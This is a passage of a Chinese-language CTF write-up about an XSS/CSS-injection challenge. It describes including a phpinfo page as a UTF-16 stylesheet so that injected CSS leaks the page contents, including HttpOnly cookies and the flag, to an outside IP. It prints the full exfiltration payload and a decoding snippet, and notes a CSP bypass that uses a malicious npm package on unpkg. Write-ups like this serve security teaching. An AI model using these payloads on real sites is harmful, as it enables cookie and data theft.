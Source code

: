 ![image.png-41.3kB][7]

utf-16会把utf-8中正常的字符，2位作为一个字符解析，如果我们用utf-16引入utf-8，那么就会引入一大堆乱码。

如果你熟悉css，你可能会知道，css本身是一种容错率很强的语言，css文件即使遇到错误，也会一直读取，直到有符合结构的语句。

让我们回到站内继续讨论。

1、站内是一个比较常见的xss留言板，还有不太严格的csp
```
Content-Security-Policy:default-src *; img-src * data: blob:; frame-src 'self'; script-src 'self' unpkg.com; style-src 'self' unpkg.com fonts.googleapis.com; connect-src * wss:;
```
2、站内有phpinfo.php，在phpinfo中会记录当前用户的所有cookie信息，包括httponly（我们通过读取phpinfo页面内容就能获取flag)
3、phpinfo.php还会接受所有的request请求，显示在页面里
![image.png-144.7kB][8]


那么如果把上面的所有思路连接起来，就能构成我们要的payload了。

1、通过link，以utf-16的方式引入phpinfo页面。
2、写入
```
)},{}*{background:url(http://yourip?
```
类似的css

3、由于请求会在phpinfo页面中出现多次，所以后一条可以闭合前一条，用来读取这中间部分的页面内容。


完整payload：
```
<link tye="text/css" charset="utf-16" href='http://noxss.2017.teamrois.cn/phpinfo.php?a=%00)%00}%00,%00%7B%00%7D%00*%00{%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00:%00u%00r%00l%00%28%00h%00t%00t%00p%00:%00/%00/%001%001%005%00.%002%008%00.%007%008%00.%001%006%00?%00' rel="stylesheet">  1
```
![image.png-176.1kB][9]

打回来的东西需要解码 
```
s = "xxxx"
ss= decodeURIComponent(s)

var decodedData = unescape(escape(ss).replace(/%u([\da-f]{2})([\da-f]{2})/gi, '%$2%$1'));

decodedData
```

可惜了，因为构造的payload在bot那里遇到一些问题，所以把蓝猫师傅叫醒了修了下bot才收到flag，错过了一血。。。

![image.png-238.1kB][10]


但事实上，题目没有就这样结束，因为上面的方法是预期解，但蓝猫师傅告诉我，CyKor通过绕csp的方式执行js，读取了flag，我仔细研究一下发现确实可行。

由于cdn[https://unpkg.com/](https://unpkg.com/)收录所有版本的npm包，所以如果上传一个包含恶意payload的页面。

通过link import包含进来，那么js就会执行，并获取flag


  [1]: http://static.zybuluo.com/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: http://static.zybuluo.com/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: http://static.zybuluo.com/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: http://static.zybuluo.com/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: http://static.zybuluo.com/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: http://static.zybuluo.com/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: http://static.zybuluo.com/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: http://static.zybuluo.com/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: http://static.zybuluo.com/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: http://static.zybuluo.com/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: http://static.zybuluo.com/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: http://static.zybuluo.com/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png